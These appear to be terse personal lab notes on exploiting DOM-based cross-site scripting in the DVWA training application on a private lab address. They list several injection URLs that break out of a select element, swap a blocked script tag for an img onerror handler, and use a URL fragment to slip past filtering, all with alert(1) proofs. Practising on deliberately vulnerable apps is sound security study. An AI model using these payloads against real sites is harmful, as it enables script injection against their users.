 
In DOM base => js was catched to user inputs 

http://192.168.99.116/DVWA/vulnerabilities/xss_d/?default=English"></option></select><script>alert(1)</script>

http://192.168.99.116/DVWA/vulnerabilities/xss_d/?default=English"></script><script>alert(1)</script>

=> script tag was banned

http://192.168.99.116/DVWA/vulnerabilities/xss_d/?default=English"></option></select><img src=x onerror=alert(1)>

=> # command for url

=> that is banned if input is not normal or userinput

![[Pasted image 20230111222804.png]]


http://192.168.99.116/DVWA/vulnerabilities/xss_d/?default=English#</script><script>alert(1);</script>       => use command for #   => we have to reload 2time for DOM this one



